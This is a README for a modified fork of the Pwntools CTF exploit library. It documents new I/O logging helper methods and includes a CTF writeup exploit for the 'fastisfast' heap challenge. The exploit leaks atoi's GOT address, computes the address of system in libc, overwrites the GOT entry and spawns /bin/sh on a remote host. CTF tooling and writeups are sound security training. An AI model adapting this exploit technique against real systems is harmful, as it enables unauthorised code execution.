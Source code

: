 # Pwntools - CTF toolkit

Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

# Forked and modified

Modified to optimize I/O display. Helps a lot on `reviewing the I/O sequence`.

Modified in `pwnlib\tubes\tube.py`.



`Recieved (useful/Junk) data` will be shown. `Sent data` would also be displayed. Debug info by the exploit writer would dispaly in different `colors`. 

Correctly use of this helps a lot to clear the mind. 

# Available new API

7 APIs available to interact with pwn challenges. These seven APIs seems to be enough for most situations of send data and leak data in CTF.

Fairly easy and simple. So this part will be Introduced as  source code:

```
    def ManualAttach(self):
        print '\33[1;31;40m[+] Debug: Attach GDB.',
	sys.stdin.read(1)

    def Log(self, String):
        print '\33[1;31;40m[+] '+ String,

    def LogRecvUntil(self, String):
	Data = self.recvuntil(String)
	print '\33[0m\b' + Data,
	return Data

    def LogRecvNoBlocking(self):
        print '\33[0m\b'+ self.recv(),

    def LogRecv(self, Len):
        Data = self.recv(Len)
        print '\33[0m\b' + Data,
        return Data

    def LogSend(self,Data):
        print '\33[1;36;40m\b' + Data,
        self.send(Data)

    def LogSendAndRecv(self,Data):
        print '\33[1;36;40m\b' + Data,
        self.send(Data)
        print '\33[0m\b' + self.recv(),

    def LogHex(self,Data):
        i = 0
        display = ''
        for byte in Data:
            display = display + str(hex(packing.unpack(byte, 8)))+ ' '
            if((i + 1) % 4 == 0):
                display = display + '| '
            if((i + 1) % 16 == 0):
                self.Log(display)
                display = ''
            i = i + 1
        if((i % 16) != 0):
            self.Log(display)
```



# Example

Writeup for `fastisfast`. As a fastbin attack challenge.

```
from pwn import *

io = remote('202.112.51.217',34123)
#io = process('./fastIsfast')

io.LogRecvNoBlocking()

for i in range(0,46):
	io.LogSendAndRecv('1\n')

io.LogSendAndRecv('3\n')

io.LogSendAndRecv('2\n')
G_V = 0x602098
io.LogSendAndRecv(p64(G_V)+'\n')
io.LogSendAndRecv('1\n')
io.LogSendAndRecv(p64(0x30)+'\n')

#malloc 0x602098 as w/r
io.LogSendAndRecv('1\n')
io.LogSendAndRecv('1\n')
#read
io.LogSendAndRecv('4\n')
#index by 0x602098


def ReadPrimitive(Address):
	io.LogSendAndRecv('2\n')
	io.LogSendAndRecv(p64(Address)+'\n')
	io.LogSendAndRecv('65\n')
	io.LogSendAndRecv('AAAABBBB\n')	

	io.LogSend('4\n')
	io.LogRecvUntil('Name : ')
	data = io.LogRecv(6)

	value = u64(data+'\x00\x00')
	
	io.LogRecvNoBlocking()
	return value

ATOI_GOT = 0x602050
ATOI_LIBC = ReadPrimitive(ATOI_GOT)
io.Log('Leaked address of atoi@libc: '+hex(ATOI_LIBC)+'.')

#libc-2.19
#SYSTEM_LIBC = ATOI_LIBC -0x39EA0 + 0x46590
#Log('Leaked address of system@libc: '+hex(SYSTEM_LIBC)+'.')

#libc-2.23
SYSTEM_LIBC = ATOI_LIBC - 0x36E80 + 0x45390
	
io.LogSendAndRecv('2\n')
io.ManualAttach()
io.LogSendAndRecv(p64(SYSTEM_LIBC) +'\n')
io.LogSendAndRecv('65\n')
io.LogSendAndRecv('AAAABBBB\n')
io.LogSend('/bin/sh')


io.interactive()
```

![example](./example.png)

